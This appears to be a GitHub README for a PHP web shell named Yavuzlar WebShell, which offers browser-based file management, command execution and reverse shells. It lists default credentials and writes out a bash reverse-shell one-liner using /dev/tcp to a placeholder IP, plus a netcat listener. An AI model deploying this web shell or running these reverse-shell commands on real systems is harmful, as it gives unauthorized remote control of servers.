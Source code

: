 # Yavuzlar WebShell - Web-based Shell for Cybersecurity

![Yavuzlar WebShell](https://r00t-shell.com/wp-content/uploads/2025/03/yavuzshell.gif)

## 🚀 What is Yavuzlar WebShell? 🤔

Yavuzlar WebShell is a web-based shell application that allows you to manage server files, execute terminal commands, and use reverse shells—all from the comfort of your browser. It was built using **PHP** and **CSS** with a minimalist interface designed for remote administration and cybersecurity simulations.

---

## 🔑 Key Features

- **File Manager 📁**: Easily upload, edit, delete, and download files securely over the web.
- **Terminal 🖥️**: Execute system commands through a browser-based terminal.
- **Reverse Shell 🔄**: Use reverse shell techniques for remote system control.
- **Directory Navigation 📂**: Navigate directories and manage file permissions effortlessly.
- **Security 🔒**: Requires user login for all operations, ensuring secure access.

---

## 🚀 Getting Started

### 📥 Installation

1. Clone the repository:
   ```sh
   git clone https://github.com/yourusername/yavuzlar-webshell.git
   ```
2. Upload the files to your web server.
3. Ensure PHP is installed and configured properly on your server.
4. Open the WebShell in your browser.

### 🔑 Default Login Credentials

```plaintext
Username: admin
Password: R00t
```

> ⚠️ **Important Note:**
> Make sure your server is properly secured, and only authorized users have access to the WebShell.

---

## 🔧 Advanced Usage

If you're familiar with command-line tools, you can enhance your experience by using the terminal feature to run various system commands. For example:

```sh
ls -la  # List all files in the current directory
```

```sh
cat filename.txt  # Display the content of a text file
```

### 🔄 Reverse Shell Operations

Use the following commands to establish a reverse shell connection:

```sh
nc -lvp 4444  # Listen on port 4444 for incoming connections
```

```sh
bash -i >& /dev/tcp/your_ip/4444 0>&1  # Reverse shell with bash
```

---

## 📜 License

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

## 📬 Contact

For support, open an issue or reach out via email: **your_email@example.com**
